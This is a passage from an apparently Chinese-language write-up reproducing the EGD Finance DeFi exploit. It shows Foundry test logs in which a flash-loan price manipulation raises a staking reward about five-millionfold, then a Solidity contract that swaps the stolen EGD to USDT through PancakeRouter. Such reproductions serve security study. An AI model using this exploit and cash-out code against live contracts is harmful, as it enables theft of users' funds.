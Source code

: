 ```solidity

        require(success);
    }
}

```



输出:

```
~/Desktop/EGDFinanceDemo main !2 9 ❯ forge test --match-contract HackTest1  -vv
[⠑] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠰] Solc 0.8.17 finished in 2.44s
Compiler run successful

Running 1 test for test/Hack.t.sol:HackTest1
[PASS] testHack() (gas: 909189)
Logs:
  all edg in EGD_Finance: 5678872403240763806350000
  edg price before: 8096310933284567
  egd i should reward by noraml case: 1093999999999910400
  edg price after (i borrowed huge USDT out): 194311462398
  edg i get from the stake reward: 5630136207606302655330000
```

可以看到, 我们本来只能领取EDG:  1093999999999910400  变成了  5630136207606302655330000, 放大了500万倍.



### 将获利兑换为USDT进行套现



我这里为了让逻辑更清晰, 新建一个合约专门用于USDT兑换:

```solidity
contract Egd2USDT {
    function swap2usdt() public {
        IERC20(egd).transferFrom(
            msg.sender,
            address(this),
            IERC20(egd).balanceOf(msg.sender)
        );

        //将egd兑换成usdt
        address[] memory path = new address[](2);
        path[0] = egd;
        path[1] = usdt;
        IERC20(egd).approve(address(pancakeRouter), type(uint256).max);
        pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            IERC20(egd).balanceOf(address(this)),
            1,
            path,
            address(msg.sender),
            block.timestamp
        );
    }
}
```
